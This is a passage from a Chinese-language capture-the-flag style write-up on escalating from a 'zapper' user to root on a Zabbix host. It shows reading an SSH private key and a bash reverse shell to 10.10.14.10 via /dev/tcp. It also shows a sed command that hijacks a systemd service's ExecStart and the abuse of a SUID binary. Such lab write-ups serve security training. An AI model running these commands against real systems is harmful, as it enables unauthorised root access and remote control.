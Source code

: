 cd /home/zapper/utils

通过backup.sh得到zapper用户密码。切换用户。

cat /home/zapper/.ssh/id_rsa

获得ssh密钥。通过ssh -i id_rsa 用户名@IP

登陆后， /home/zapper/utils/zabbix-service具有suid权限

之前文章讨论过很多suid的东西了，这里就不多说了。

在/tmp目录添加shell，命令如下

```
echo '#!/bin/bash ' > /tmp/shell.sh
echo 'bash -i >/dev/tcp/10.10.14.10/443 0<&1' >> /tmp/shell.sh
chmod a+x /tmp/shell.sh
```
在zapper配置中修改重启后运行的脚本，如果以下命令报错，可以手动修改该行。目的是重启程序，同时执行/tmp/shell.sh

```
sed -i 's/ExecStart=\/root\/scripts\/purge-backups.sh/ExecStart=\/tmp\/shell.sh/' /etc/systemd/system/purge-backups.service

cd /home/zapper/utils;./zabbix-service
stop

nc -lnvp 443开启监听

再次运行，start开启该服务，即可得到root权限
```
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-02-11/4.PNG)




## 存在的漏洞
```
guest匿名登陆+信息泄露
弱密码
web api可访问，用来爆破登陆口令
zabbix-agentweb版本漏洞-远程代码执行
zabbix-server system.run远程代码执行
suid提权
```
## 总结
